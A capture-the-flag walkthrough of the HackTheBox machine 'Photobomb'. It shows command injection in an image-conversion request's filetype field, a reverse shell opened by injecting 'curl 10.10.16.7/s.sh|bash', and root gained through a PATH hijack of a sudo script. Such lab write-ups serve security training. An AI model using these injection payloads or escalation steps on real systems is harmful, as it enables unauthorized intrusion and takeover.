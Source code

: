 ### Photobomb HackTheBox

### Difficulty = Easy

### IP Address = 10.10.11.182

Nmap Scan:

```
# Nmap 7.92 scan initiated Sun Feb 12 21:07:44 2023 as: nmap -sCV -A -p22,80 -oN nmapscan 10.10.11.182
Nmap scan report for 10.10.11.182
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 12 21:08:05 2023 -- 1 IP address (1 host up) scanned in 20.73 seconds
```

I'll add the domain `photobomb.htb` to my `/etc/hosts` file

```
└─$ cat /etc/hosts | grep htb
10.10.11.182    photobomb.htb 
```

Heading over the web server shows this 
![image](https://user-images.githubusercontent.com/113513376/218334872-d49b49cc-ad85-43bf-b5c1-c34c258d2fa8.png)

Clicking the link shows a login page
![image](https://user-images.githubusercontent.com/113513376/218334906-1763e108-cbdb-45f2-9c4e-61892e705a61.png)

Trying default/weak credentials doesn't work

Checking the source code shows photobomb.js
![image](https://user-images.githubusercontent.com/113513376/218334940-922d5cb0-2983-4a52-af30-047f96daa259.png)
![image](https://user-images.githubusercontent.com/113513376/218334951-b571aa9a-416a-4f59-8acc-59b9809c334d.png)

Reading the source code shows a cred `pH0t0:b0Mb!`
![image](https://user-images.githubusercontent.com/113513376/218335008-b9631dbf-d8af-4e4f-9314-69f6d009daf0.png)

Trying that over the login page works
![image](https://user-images.githubusercontent.com/113513376/218335073-7f16ff1b-1e69-45c2-847c-7e2667dba022.png)
![image](https://user-images.githubusercontent.com/113513376/218335060-2b4f2dc8-9376-4297-a931-de7a277e650d.png)

It converts the image to make it a way it can be printed

Attempting to access a random file throws an error
![image](https://user-images.githubusercontent.com/113513376/218335195-079fe89d-4fd7-4f43-9204-8553f0a74402.png)

Checking google for what sinatra means i got a github source repo
![image](https://user-images.githubusercontent.com/113513376/218335262-fd444975-80f6-4885-9191-dbadaeec55e2.png)

I couldn't get anything from that except that its built in ruby

So i'll analyze the convert function in burp suite
![image](https://user-images.githubusercontent.com/113513376/218335411-63f0a279-8a4d-4ca0-a9dc-ffc76e10be25.png)

After playing with the request i figured that the filetype varaible is vulnerable to command injection

Now i will ping my ip to confirm that it is indeed command injection
![image](https://user-images.githubusercontent.com/113513376/218335566-238171fa-ba8b-453a-bc47-2b11cdb7caff.png)

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;ping+-c+2+10.10.16.7;&dimensions=3000x2000
```

Back on tcpdump

```
└─$ sudo tcpdump -i tun0 icmp      
[sudo] password for mark: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:31:36.240879 IP photobomb.htb > haxor: ICMP echo request, id 2, seq 1, length 64
21:31:36.255021 IP haxor > photobomb.htb: ICMP echo reply, id 2, seq 1, length 64
21:31:37.264825 IP photobomb.htb > haxor: ICMP echo request, id 2, seq 2, length 64
21:31:37.264918 IP haxor > photobomb.htb: ICMP echo reply, id 2, seq 2, length 64
21:31:51.609221 IP photobomb.htb > haxor: ICMP echo request, id 3, seq 1, length 64
21:31:51.609330 IP haxor > photobomb.htb: ICMP echo reply, id 3, seq 1, length 64
21:31:52.632988 IP photobomb.htb > haxor: ICMP echo request, id 3, seq 2, length 64
21:31:52.633053 IP haxor > photobomb.htb: ICMP echo reply, id 3, seq 2, length 64
```

Now i'll get a reverse shell
![image](https://user-images.githubusercontent.com/113513376/218335841-30bfe4c7-0a01-4f0d-99ca-1dad4be050c1.png)

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Origin: http://photobomb.htb
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;curl+10.10.16.7/s.sh|bash;&dimensions=3000x2000
```

Now i'll stabilize the shell

```
python3 -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
CTRL +Z
stty raw -echo;fg
```

Only one user available in the box

```
wizard@photobomb:~/photobomb$ id
uid=1000(wizard) gid=1000(wizard) groups=1000(wizard)
wizard@photobomb:~/photobomb$ cd /home
wizard@photobomb:/home$ ls -al
total 12
drwxr-xr-x  3 root   root   4096 Sep 16 15:14 .
drwxr-xr-x 18 root   root   4096 Sep 16 15:14 ..
drwxr-xr-x  7 wizard wizard 4096 Sep 16 15:14 wizard
wizard@photobomb:/home$ cd wizard/
wizard@photobomb:~$ ls -al
total 44
drwxr-xr-x 7 wizard wizard 4096 Sep 16 15:14 .
drwxr-xr-x 3 root   root   4096 Sep 16 15:14 ..
lrwxrwxrwx 1 wizard wizard    9 Mar 26  2022 .bash_history -> /dev/null
-rw-r--r-- 1 wizard wizard  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 wizard wizard 3771 Feb 25  2020 .bashrc
drwx------ 2 wizard wizard 4096 Sep 16 15:14 .cache
drwxrwxr-x 4 wizard wizard 4096 Sep 16 15:14 .gem
drwx------ 3 wizard wizard 4096 Sep 16 15:14 .gnupg
drwxrwxr-x 3 wizard wizard 4096 Sep 16 15:14 .local
drwxrwxr-x 6 wizard wizard 4096 Feb 12 20:38 photobomb
-rw-r--r-- 1 wizard wizard  807 Feb 25  2020 .profile
-rw-r----- 1 root   wizard   33 Feb 12 20:02 user.txt
wizard@photobomb:~$ 
```

Lets escalate privilege

Checking sudo permission shows that the user can run a script as root 

```
wizard@photobomb:~$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~$ 
```

Here's the content of the script

```
wizard@photobomb:~$ ls -l /opt/cleanup.sh
-r-xr-xr-x 1 root root 340 Sep 15 12:11 /opt/cleanup.sh
wizard@photobomb:~$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:~$ 
```

Looking at the script we see the vulnerability that it runs find command without specifying the full path 

We can perform a path hijack and also specify the path the binary should get its command from since SETENV is enabled

Here's the privesc

```
wizard@photobomb:/dev/shm$ nano find
wizard@photobomb:/dev/shm$ chmod +x find
wizard@photobomb:/dev/shm$ cat find
#!/usr/bin/bash

/bin/bash
wizard@photobomb:/dev/shm$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:/dev/shm$ sudo PATH=/dev/shm/ /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# 
```

And we're done

<br> <br>
[Back To Home](../../index.md)

